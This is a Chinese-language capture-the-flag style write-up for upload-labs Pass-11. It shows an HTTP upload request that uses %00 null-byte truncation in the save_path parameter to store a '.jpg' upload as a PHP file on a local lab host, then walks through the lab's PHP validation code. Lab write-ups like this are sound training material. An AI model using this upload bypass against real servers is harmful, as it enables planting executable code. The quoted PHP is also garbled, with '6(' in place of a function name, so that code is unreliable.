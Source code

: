 + php版本小于`5.3.4`
+ php的`magic_quotes_gpc`为`OFF`状态 //在php.ini中修改

这两个条件我的服务端都满足.
所以我使用这个方法,在burp中自定义上传路径然后加上阶段符号

```
POST /upload-labs/Pass-11/index.php?save_path=../upload/haha/11.php%00 HTTP/1.1  //这里使用了%00截断
Host: 192.168.96.128
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.96.128/upload-labs/Pass-11/index.php?save_path=../upload/
Content-Type: multipart/form-data; boundary=---------------------------14066184711055
Content-Length: 324
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------14066184711055
Content-Disposition: form-data; name="upload_file"; filename="11.jpg"
Content-Type: image/jpeg
```

返回提示上传出错.检查了下配置和我的playload应该没有问题.
只能查看下源码问题在哪里了.
先查一下不认识的函数:
> `strrpos(被查找的字符串,要查找的字符)`,这个函数查找某个字符在字符串中最后一次出现的位置.大小写敏感
> `$_FILES[]['name']`获得上传文件的原名称.如果后面的括号里是`type`就是获得文件类型,`tmp_name`获得文件被上传后服务器存储的临时文件名,一般是默认.`size`已上传文件大小.`error`和文件上传错误相关的代码.
> `move_uploaded_file(string $filemane,String $destination)`将指定文件(必须是合法的即通过post,get上传的文件)移动到由`destination`指定的文件


```
  $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
```
这个语句的意思就是截取上传文件的原名称的`.`后面的字符.也就是后缀.`$file_ext`这个变量保存了文件后缀

```
if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(6($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else{
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
```
这一段意思是,如果文件后缀在我们的列表内就继续,否则提示不允许,如果继续,取得文件临时名,再通过`sava_path`构造一个`img_path`用来存放文件.
然后判断移动临时文件到我们构造的路径是否成功,失败就报错.
所以我们的移动失败了.
